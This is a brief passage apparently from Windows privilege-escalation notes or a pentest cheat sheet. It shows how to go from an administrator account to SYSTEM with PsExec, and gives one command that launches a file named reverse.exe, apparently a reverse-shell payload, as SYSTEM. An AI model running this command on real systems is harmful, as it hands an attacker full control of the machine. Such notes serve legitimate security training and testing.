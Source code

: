 # Admin to SYSTEM

Admin -&gt; SYSTEM To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals \([https://docs.microsoft.com/en-](https://docs.microsoft.com/en-) us/sysinternals/downloads/psexec\). 

```text
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

